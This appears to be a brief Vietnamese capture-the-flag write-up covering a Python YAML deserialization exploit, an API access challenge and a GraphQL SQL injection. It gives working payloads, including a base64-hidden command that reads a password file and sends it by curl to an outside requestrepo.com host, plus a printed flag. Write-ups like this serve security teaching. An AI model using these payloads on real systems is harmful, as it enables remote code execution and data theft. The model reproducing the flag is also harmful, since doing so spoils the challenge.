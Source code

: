 ```
import base64
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import subprocess

class Payload(object):
    def __reduce__(self):
        return subprocess.Popen, ('wget http://00br69e7.requestrepo.com')

# Serialize data
deserialized_data = yaml.dump(Payload())

deserialized_data = 'yaml: ' + deserialized_data

# Encode the serialized data to bytes and then encode it using base64
# encoded_data = base64.b64encode(deserialized_data.encode('utf-8'))

# Print base64 encoded result
print(deserialized_data)

```

trông thì nó cơ bản giống với pickle trong python
ở đây ta cần thêm tupler nữa để rce

![image](https://hackmd.io/_uploads/BJbZmrHxkg.png)

![image](https://hackmd.io/_uploads/S1JXmSSlyx.png)

```
yaml: !!python/object/apply:subprocess.Popen
- !!python/tuple
 - python
 - -c
 - "__import__('os').system(str(__import__('base64').b64decode('Y2F0IC5wYXNzd2QgfCBjdXJsIC1kIEAtIDAwYnI2OWU3LnJlcXVlc3RyZXBvLmNvbQ==').decode()))"
```

![image](https://hackmd.io/_uploads/rkYHQSrgJx.png)


flag: `561385a008727f860eda1afb7f8eba76`

## API - Broken Access 2

![image](https://hackmd.io/_uploads/By0cXHrgkg.png)

Bài này là bài nâng cao api swagger mà server có đề cập ở 2 bài trước

## GraphQL - Backend injection

```
{
    rocket(id: "0 union select null,(select value from flag limit 1),country,is_active from rockets limit 40,1--") {
        name
        country
        is_active
    }
}
```

